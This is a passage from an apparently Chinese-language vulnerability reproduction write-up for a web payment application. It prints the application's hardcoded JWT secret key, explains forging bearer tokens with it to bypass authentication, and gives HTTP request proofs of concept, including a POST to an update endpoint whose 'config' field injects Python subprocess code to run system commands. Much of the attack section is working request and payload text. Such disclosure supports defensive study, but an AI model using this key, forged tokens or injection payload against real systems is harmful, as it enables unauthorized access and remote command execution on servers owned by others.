 ```
        # 返回错误提示和400状态码
        return 'Provide an Email and Password in JSON format in the request body', 400

```  
  
  
通过上面代码我们可以看到如果用户输入的密码和数据库中存储的哈希验证通过则使用jwt  
创建一个访问令牌，但是jwt  
生成是需要一个密钥，往往这个会使别人没有修改导致可以伪造一个访问令牌  
  
我们全局搜索一下关于jwt配置的关键文件，在service目录下的api目录中找到了db.py  
文件，这个文件包含了jwt的配置信息：  
  
```
app.config['JWT_SECRET_KEY'] = 'EXZgC3BMhPxtu4Kq6W7mo9rAT0yYGsOiQNf5vUInSjRVeb'  # Change this!
app.config['JWT_ACCESS_TOKEN_EXPIRES'] = datetime.timedelta(hours=1)

```  
  
  
可以看到这里使用了硬编码的JWT密钥。这意味着我们可以利用这个密钥来伪造有效的JWT令牌，从而绕过身份验证。  
## 0x02 漏洞复现  
  
1.  
 使用下面代码生成一个临时访问令牌进行验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5df3ib7hGKatjVUh8eQre9SQPPnk7ZGgwiaEPa0G9F6Wiau1QXlIavlUhZIbg8Lh9yhPLTlYPl8BCYGw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5df3ib7hGKatjVUh8eQre9SQff25bR24p01QOtfOzn97yBu7Roiaxc5SkibE0PyrEWqCf9LkdeRdR7Cg/640?wx_fmt=png&from=appmsg "")  
  
2.生成成功之后我们发送下面的请求包进行验证  
  
```
GET /api/v4/get_pays HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.xxxxxxxx
Content-Type: application/json

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5df3ib7hGKatjVUh8eQre9SQNVk9cWczdpJiasJjaqicoFxrHA4ibLpxOQvJJ7nfh8yc0fIpynY2u9t3Q/640?wx_fmt=png&from=appmsg "")  
  
可以看到返回数据了 证明我们生成的Jwt令牌是正确的  
  
3.下面进行命令执行，使用下面POC进行利用  
  
```
POST /api/v4/update_pays HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.xxxxxxxxx
Content-Type: application/json
Content-Length: 257

{"data": {"config": "__import__('subprocess').check_output('whoami', shell=True).decode('utf-8').strip()", "icon": "\u652f\u4ed8\u5b9d", "id": 2, "info": "0\u8d39\u7387\u5b9e\u65f6\u5230\u8d26", "isactive": false, "name": "V\u514d\u7b7e\u652f\u4ed8\u5b9d"}}

```  
  